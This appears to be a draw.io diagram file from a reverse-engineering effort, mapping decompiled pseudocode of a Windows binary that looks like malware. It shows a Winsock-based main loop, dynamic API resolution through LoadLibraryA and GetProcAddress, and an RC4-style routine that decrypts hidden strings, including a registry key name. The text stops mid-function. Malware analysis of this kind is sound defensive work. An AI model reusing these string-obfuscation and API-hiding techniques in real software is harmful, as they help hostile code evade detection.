 <mxfile version="24.8.2">
  <diagram name="Page-1" id="z8TMenJuWHfGxh3X5ceK">
    <mxGraphModel dx="11230" dy="4240" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IVjEpb5pE-T4-foRiEZy-71" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="700" y="3580" width="610" height="960" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-66" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="690" y="1620" width="770" height="1860" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-61" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-499" y="3540" width="570" height="380" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-54" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-499" y="1480" width="720" height="1960" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-50" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-110" y="1170" width="430" height="180" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-46" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-2070" y="2580" width="680" height="890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-42" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-2140" y="1490" width="790" height="1030" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-44" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.25;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-33" target="IVjEpb5pE-T4-foRiEZy-42">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-57" value="Text" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="IVjEpb5pE-T4-foRiEZy-44">
          <mxGeometry x="-0.483" y="-10" relative="1" as="geometry">
            <mxPoint x="3" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.75;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-37" target="IVjEpb5pE-T4-foRiEZy-46">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-37" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-1190" y="1130" width="550" height="1690" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-24" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-350" y="560" width="450" height="430" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-18" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1659" y="861" width="642" height="540" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-5" value="" style="group" vertex="1" connectable="0" parent="1">
          <mxGeometry x="940" y="500" width="649" height="1150" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-6" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry width="649" height="1058.21" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-7" value="void *__thiscall sub_402510(void *this)&lt;br&gt;{&lt;br&gt;&amp;nbsp; HMODULE LibraryA; // eax&lt;br&gt;&amp;nbsp; FARPROC ProcAddress; // eax&lt;br&gt;&amp;nbsp; FARPROC v4; // eax&lt;br&gt;&amp;nbsp; FARPROC v5; // eax&lt;br&gt;&amp;nbsp; FARPROC v6; // eax&lt;br&gt;&amp;nbsp; HMODULE v8; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v9; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v10; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v11; // [esp-Ch] [ebp-10h]&lt;br&gt;&lt;br&gt;&amp;nbsp; *(_DWORD *)this = &amp;amp;off_405728;&lt;br&gt;&amp;nbsp; sub_402800(&amp;amp;unk_4070A8, 128);&lt;br&gt;&amp;nbsp; sub_4028A0(aYf, 13);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRf8t69mIWm, 27);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj, 16);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aDz, 119);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_0, 35);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_1, 57);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRfX0wEtbUqP3, 20);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407328, 67);&lt;br&gt;&amp;nbsp; sub_4028A0(a4zb7SNcj, 36);&lt;br&gt;&amp;nbsp; sub_4028A0(SubKey, 64);&lt;br&gt;&amp;nbsp; sub_4028A0(ValueName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(aAH, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4073E8, 31);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407408, 30);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407428, 32);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407448, 39);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D4, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D8, 5);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071E0, 9);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071EC, 15);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071FC, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(LibFileName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(ProcName, 14);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg, 19);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_1, 21);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_2, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_3, 20);&lt;br&gt;&amp;nbsp; LibraryA = LoadLibraryA(LibFileName);&lt;br&gt;&amp;nbsp; *((_DWORD *)this + 9) = LibraryA;&lt;br&gt;&amp;nbsp; if ( LibraryA )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 1) = GetProcAddress(LibraryA, ProcName);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; ProcAddress = GetProcAddress(*((HMODULE *)this + 9), aXg);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v8 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 2) = ProcAddress;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v4 = GetProcAddress(v8, aXg_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v9 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 3) = v4;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 4) = GetProcAddress(v9, aY);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5 = GetProcAddress(*((HMODULE *)this + 9), aY_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v10 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 5) = v5;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v6 = GetProcAddress(v10, aXg_1);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v11 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 6) = v6;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 8) = GetProcAddress(v11, aXg_2);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 7) = GetProcAddress(*((HMODULE *)this + 9), aXg_3);&lt;br&gt;&amp;nbsp; }&lt;br&gt;&amp;nbsp; return this;&lt;br&gt;}" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry x="28.86" y="53" width="500.14" height="992.55" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-16" value="&lt;h1&gt;&lt;font color=&quot;#ff8b26&quot;&gt;&lt;b&gt;(function 2, called by function 1 if v1 exists):&lt;/b&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry x="12" y="20" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-17" value="&#xa;unsigned int __thiscall sub_4028A0(int this, int a2, unsigned int a3)&#xa;{&#xa;  int v3; // edx&#xa;  unsigned int result; // eax&#xa;  int v5; // ebp&#xa;  unsigned __int8 v6; // cl&#xa;  char v7[128]; // [esp+10h] [ebp-80h] BYREF&#xa;&#xa;  v3 = 0;&#xa;  result = 0;&#xa;  qmemcpy(v7, (const void *)(this + 40), sizeof(v7));&#xa;  v5 = 0;&#xa;  if ( a3 )&#xa;  {&#xa;    do&#xa;    {&#xa;      v3 = (v3 + 1) % 128;&#xa;      v6 = v7[v3];&#xa;      v5 = (v6 + v5) % 128;&#xa;      v7[v3] = v7[v5];&#xa;      v7[v5] = v6;&#xa;      *(_BYTE *)(result + a2) ^= v7[(v6 + (unsigned __int8)v7[v3]) % 128];&#xa;      ++result;&#xa;    }&#xa;    while ( result &lt; a3 );&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="1700" y="940" width="407" height="440" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-20" value="&lt;h1&gt;(function 3, called by function 2 multiple times):&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1663" y="888" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-23" value="unsigned int __stdcall sub_4027A0(int a1, char *a2)&#xa;{&#xa;  unsigned int result; // eax&#xa;&#xa;  if ( a1 == 1 )&#xa;  {&#xa;    result = 0;&#xa;    strcpy(a2, aSv);&#xa;  }&#xa;  else&#xa;  {&#xa;    result = a1 - 2;&#xa;    if ( a1 == 2 )&#xa;    {&#xa;      result = strlen(aPxE77y) + 1;&#xa;      qmemcpy(a2, aPxE77y, result);&#xa;    }&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-310" y="660" width="312" height="310" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-31" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-13" target="IVjEpb5pE-T4-foRiEZy-6">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1590" y="460.0" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-13" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="221" y="180" width="549" height="940" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-24">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-37">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="170" y="672" />
              <mxPoint x="170" y="1040" />
              <mxPoint x="-225" y="1040" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-52" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-51">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-60" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-56">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="441" y="1150" />
              <mxPoint x="380" y="1150" />
              <mxPoint x="380" y="1440" />
              <mxPoint x="-17" y="1440" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-61">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="547" y="1200" />
              <mxPoint x="430" y="1200" />
              <mxPoint x="430" y="3815" />
              <mxPoint x="71" y="3815" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-66">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-75" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-3" target="IVjEpb5pE-T4-foRiEZy-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-3" value="&lt;h1 style=&quot;margin-top: 0px;&quot;&gt;&lt;br&gt;&lt;/h1&gt;&lt;p&gt;void __noreturn sub_401760()&lt;br&gt;{&lt;br&gt;&amp;nbsp; unsigned int v0; // eax&lt;br&gt;&amp;nbsp; void *v1; // eax&lt;br&gt;&amp;nbsp; int v2; // eax&lt;br&gt;&amp;nbsp; unsigned int v3; // esi&lt;br&gt;&amp;nbsp; HANDLE Thread; // eax&lt;br&gt;&amp;nbsp; int v5[2]; // [esp+Ch] [ebp-15E4h] BYREF&lt;br&gt;&amp;nbsp; char Buffer[64]; // [esp+14h] [ebp-15DCh] BYREF&lt;br&gt;&amp;nbsp; struct WSAData WSAData; // [esp+54h] [ebp-159Ch] BYREF&lt;br&gt;&amp;nbsp; _BYTE v8[1024]; // [esp+1E4h] [ebp-140Ch] BYREF&lt;br&gt;&amp;nbsp; char v9[1024]; // [esp+5E4h] [ebp-100Ch] BYREF&lt;br&gt;&amp;nbsp; char v10[1024]; // [esp+9E4h] [ebp-C0Ch] BYREF&lt;br&gt;&amp;nbsp; char v11[2056]; // [esp+DE4h] [ebp-80Ch] BYREF&lt;br&gt;&amp;nbsp; int v12; // [esp+15ECh] [ebp-4h]&lt;br&gt;&lt;br&gt;&amp;nbsp; WSAStartup(0x202u, &amp;amp;WSAData);&lt;br&gt;&amp;nbsp; v0 = time(0);&lt;br&gt;&amp;nbsp; srand(v0);&lt;br&gt;&amp;nbsp; v1 = operator new(0xA8u);&lt;br&gt;&amp;nbsp; v5[1] = (int)v1;&lt;br&gt;&amp;nbsp; v12 = 0;&lt;br&gt;&amp;nbsp; if ( v1 )&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = &lt;font color=&quot;#ff8b26&quot;&gt;sub_402510&lt;/font&gt;(v1); //function_2&lt;br&gt;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = 0;&lt;br&gt;&amp;nbsp; v12 = -1;&lt;br&gt;&amp;nbsp; dword_4075BC = v2;&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#baff42&quot;&gt;sub_4027A0&lt;/font&gt;(1, &amp;amp;unk_4075C0); // function_4&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#9cff63&quot;&gt;sub_4027A0&lt;/font&gt;(2, byte_4075E0);&lt;br&gt;&amp;nbsp; while ( 1 )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v10, 0, sizeof(v10));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v8, 0, sizeof(v8));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v11, 0, 0x800u);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v9, 0, sizeof(v9));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5[0] = 0;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v3 = &lt;font color=&quot;#47e7ff&quot;&gt;sub_402EE0&lt;/font&gt;(v10, &amp;amp;unk_4075C0); //function 